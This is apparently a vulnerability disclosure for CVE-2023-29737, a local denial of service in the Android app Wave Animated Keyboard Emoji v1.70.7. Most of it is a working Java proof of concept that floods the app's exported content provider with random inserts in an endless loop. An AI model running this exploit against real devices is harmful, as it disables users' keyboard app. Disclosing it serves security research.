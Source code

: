 ## Denial of Service exists in Wave Animated Keyboard Emoji（CVE-2023-29737）

Vendor：Wave Studio(http://www.wavekeyboard.com/)

Affected product：Wave Animated Keyboard Emoji(com.scorp.who) 

Version：1.70.7

Download link：https://play.google.com/store/apps/details?id=com.wave.keyboard

Description of the vulnerability for use in the CVE：An issue found in Wave Animated Keyboard Emoji v.1.70.7 for Android allows a local attacker to cause a denial of service via the database files.



poc：

```java
public void attack(){
    while (true) {
        ContentResolver contentResolver = this.getApplicationContext().getContentResolver();
        String randomString = getRandomString(52);
        String randomString2 = getRandomString(5120);
        Uri uri = Uri.parse("content://com.wave.keyboard.inputmethod.dictionarypack.aosp/" + randomString + "/metadata?protocol=2");
        ContentValues contentValues = new ContentValues();
        contentValues.put("clientid",randomString);
        contentValues.put("uri",randomString2);
        contentValues.put("additionalid",randomString2);
        contentResolver.insert(uri,contentValues);
    }
}
```



